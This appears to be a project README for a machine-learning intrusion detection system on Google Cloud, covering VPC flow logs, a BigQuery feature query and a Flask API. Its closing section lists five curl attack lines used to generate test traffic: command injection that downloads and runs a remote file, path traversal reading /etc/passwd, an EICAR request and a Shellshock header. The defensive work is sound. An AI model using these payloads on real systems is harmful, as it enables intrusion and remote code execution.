 # ML-based-real-time-intrusion-detection-system for cloud computing environments
Creating a ML based real-time intrusion detection system using Google Clouds Compute Engine


 System Model
The proposed system model consists of two VM setup using Google Cloud Platform Compute Engine, the VMs are for the server and the attacker. The Virtual Private Cloud (VPC) network for the VM is configured to enable flow logs (allowing HTTP traffic) of the VM, the VPC plays the role of a packet sniffer used to inspect the network traffic logs passing via the VM of both the server and client. In the VPC network setup, a subnet is configured of the range 192.168.10.0/24, the subnet aims at making networks more efficient. The Firewall rules are also set-up to allow ingress traffic from the IP range 35.235.240.0/20 that will use TCP forwarding. Finally, an endpoint is created.

The extracted data will be organized in a table format using BigQuery into a feature array and sent as an HTTP request over the internet to the API endpoint of the API backend using google-chrome-bigquery library and SSH. The HTTP request's data is extracted by the API backend controller and fed into the Flask API. The protocol used is TCP port 80,22 and ICMP protocol to the server. 
A sink is created to capture and store the mirrored packets from the VM web server, which are transformed into a BigQuery dataset. In the BigQuery database a custom SQL command is executed querying the following fields timestamp, source_ip, destination_ip, bytes_sent, src_port, dest_port, protocol, packets_sent which will be used for the IDS

The Flask app runs all its file on a Virtual Environment to allow python packages to be installed in an isolated location for the app.py application. Ensuring the dependency of the project does not interfere with other projects. Venv is used to create manage virtual environments.

1.9.3.	BigQuery SQL Command
The v table stores all the relevant features that will be used for the intrusion detection.
CREATE TABLE `gothic-style-406819.bq_vpcflows.v` AS
SELECT
timestamp,
jsonPayload.connection.src_ip,
jsonPayload.connection.dest_ip,
SUM(CAST(jsonPayload.bytes_sent AS INT64)) AS bytes,
jsonPayload.connection.src_port,
jsonPayload.connection.dest_port,
jsonPayload.connection.protocol,
jsonPayload.packets_sent
FROM
`gothic-style-406819.bq_vpcflows.compute_googleapis_com_vpc_flows_20231202`
WHERE jsonPayload.reporter = 'DEST'
GROUP BY
timestamp,
jsonPayload.connection.src_ip,
jsonPayload.connection.dest_ip,
jsonPayload.connection.src_port,
jsonPayload.connection.dest_port,
jsonPayload.connection.protocol,
jsonPayload.packets_sent
ORDER BY
bytes DESC
LIMIT 70



Simulating an attack
Consists of a set-up of two VM one for the server and one for the attacker. The VM of the web server is the one attacks are being launched at by the VM of the attacker which the attack traffic source. Is an attack output of the simulated attack in an html file. 
Attack Simulation using Powershell
Attack 1
curl "http://192.168.10.20/weblogin.cgi?username=admin';cd /tmp;wget http://123.123.123.123/evil;sh evil;rm evil"

Attack 2
curl http://192.168.10.20/?item=../../../../WINNT/win.ini

Attack 3
curl http://192.168.10.20/eicar.file

Attack4
curl http://192.168.10.20/cgi-bin/../../../..//bin/cat%20/etc/passwd

Attack5
curl -H 'User-Agent: () { :; }; 123.123.123.123:9999' http://192.168.10.20/cgi-bin/test-critical

